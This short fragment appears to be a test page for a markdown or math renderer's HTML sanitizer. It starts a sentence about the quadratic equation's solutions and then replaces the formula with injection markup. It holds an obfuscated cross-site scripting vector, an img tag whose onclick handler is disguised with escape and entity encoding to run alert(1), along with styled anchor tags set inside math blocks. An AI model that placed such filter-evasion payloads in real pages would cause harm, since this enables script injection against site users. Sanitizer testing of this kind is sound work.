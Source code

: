 \u003E\u003C

When $a \ne 0$, there are two solutions to \(ax^2 + bx + c = 0\) and they are
$$ \u003E\u003C\<a href=# style="position:relative;width:100px;background:#ddffdd;overflow:hidden;"><img src=m onc\u006Cick=javascript&#x6a;avascript:alert(1)()>{}$$

$$ \u003E\u003C\<img class=xlalla src=mmalla id=lkaka style="width:90px">{}$$

<a href=aa.ht style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">mamma</a>
